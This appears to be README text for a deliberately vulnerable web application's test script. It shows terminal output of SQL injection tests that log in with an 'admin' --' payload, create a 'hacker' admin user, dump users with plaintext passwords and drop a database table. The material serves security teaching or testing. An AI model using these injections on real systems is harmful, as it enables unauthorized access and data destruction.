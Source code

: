 ```
  known_vulnerabilities  Run Known Vulnerabilities Test
  insufficient_logging   Run Insufficient Logging & Monitoring Test
  list_tables_and_entries List all tables and entries in the database
  help                   Display this help message
  list_users             List all users in the database
  list_nonexistent_users List all users in the database
  list_tables_and_entries List all tables and entries in the database
  list_nonexistent_users List all users in the database
```

Here's an example of SQL injection:

```
$ ./tests.sh sql_injection
###################################################
# Running SQL Injection Test to create admin user #
###################################################
Step 1: Attempting SQL injection to create admin user...
SQL Injection Response: {"message":"Login successful","sessionId":"d86976cace3f01e5ae248e037483d70d","isAdmin":true,"redirectUrl":"/?sessionId=d86976cace3f01e5ae248e037483d70d&username=admin' --&isAdmin=true"}

Step 2: Inserting hacker user with admin privileges...

Step 3: Attempting to login as the new admin user 'hacker'...
Login response: {"message":"Login successful","sessionId":"d2cfc602ff3fd33d201d69f0fac9bdd2","isAdmin":true,"redirectUrl":"/?sessionId=d2cfc602ff3fd33d201d69f0fac9bdd2&username=hacker&isAdmin=true"}
User 'hacker' logged in successfully with admin privileges. SQL Injection successful.

Step 4: Checking database for 'hacker' user...
19|hacker|hackpass|1

Step 5: Listing all users in the database...
1|admin|admin|1
2|test|stsdf|0
3|admin|admin123|0
19|hacker|hackpass|1
```

Or drop some tables:

```
$ ./tests.sh drop_table
##############################################################################################################################
# Running SQL Injection to Drop Table. This will attempt to drop the 'messages' table from the database using SQL injection. #
##############################################################################################################################
Logging in as admin to perform SQL Injection to drop the messages table...
Logging in with admin:admin
SessionId: f86bec743b5e8cd60ec886b4a6e9e3b1
IsAdmin: true


./tests.sh: line 143: get_cookie: command not found
Dropping the messages table with SQL Injection...
Response: {"message":"Entry added successfully","result":{}}
Querying the database to check if the messages table still exists...
users
```
